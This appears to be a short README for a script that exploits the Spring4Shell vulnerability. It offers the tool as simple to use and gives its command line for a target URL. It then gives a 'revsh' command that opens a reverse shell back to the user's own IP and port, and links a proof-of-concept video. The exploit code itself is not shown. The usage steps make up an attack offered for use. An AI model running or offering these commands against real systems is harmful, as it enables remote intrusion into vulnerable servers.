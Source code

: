 # Spring4shell

Simple and easy to use script to exploit spring4shell vulnerability.

```bash
./spring4shell.py <scheme://host:port/endpoint>
```

After the exploit is run, getting a reverse shell is a simple as:
```bash
revsh <your-ip> <your-port>
```

## PoC

https://user-images.githubusercontent.com/24408791/161609077-1d265892-34be-46b5-9b27-f68da7544bc7.mov

